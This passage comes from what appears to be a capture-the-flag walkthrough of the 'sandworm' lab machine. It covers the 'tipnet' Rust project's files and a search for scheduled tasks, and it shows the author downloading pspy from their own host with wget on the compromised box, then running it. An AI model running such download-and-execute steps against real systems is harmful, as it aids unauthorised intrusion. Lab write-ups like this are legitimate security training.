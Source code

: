 

This is a good sign there's a cron or other scheduled task running every
two minutes. The `Cargo.toml` file defines the Rust package:



    [package]
    name = "tipnet"
    version = "0.1.0"
    edition = "2021"

    # See more keys and their definitions at https://doc.rust-lang.org/cargo/reference/manifest.md

    [dependencies]
    chrono = "0.4"
    mysql = "23.0.1"
    nix = "0.18.0"
    logger = {path = "../crates/logger"}
    sha2 = "0.9.0"
    hex = "0.4.3"



Interestingly, the `logger` library is located in the `crates` directory
(as observed). In the `src` folder is a single file, `main.rs`:



    silentobserver@sandworm:/opt/tipnet/src$ ls -l
    total 8
    -rwxr-xr-- 1 root atlas 5795 May  4  2023 main.rs



#### Processes

There's nothing too exciting in the process list, but I'll also run
[pspy](https://github.com/DominicBreuker/pspy) to look for crons (first
uploading it from my host):



    silentobserver@sandworm:/dev/shm$ wget 10.10.14.6/pspy64
    --2023-11-14 21:34:48--  http://10.10.14.6/pspy64    
    Connecting to 10.10.14.6:80... connected.
    HTTP request sent, awaiting response... 200 OK  
    Length: 3104768 (3.0M) [application/octet-stream]
    Saving to: ‘pspy64’

    pspy64                                                              100%[============================================================================>]   2.96M  4.10MB/s    in 0.7s    

    2023-11-14 21:34:49 (4.10 MB/s) - ‘pspy64’ saved [3104768/3104768]

    silentobserver@sandworm:/dev/shm$ chmod +x ./pspy64
    silentobserver@sandworm:/dev/shm$ ./pspy64
    ...[snip]...
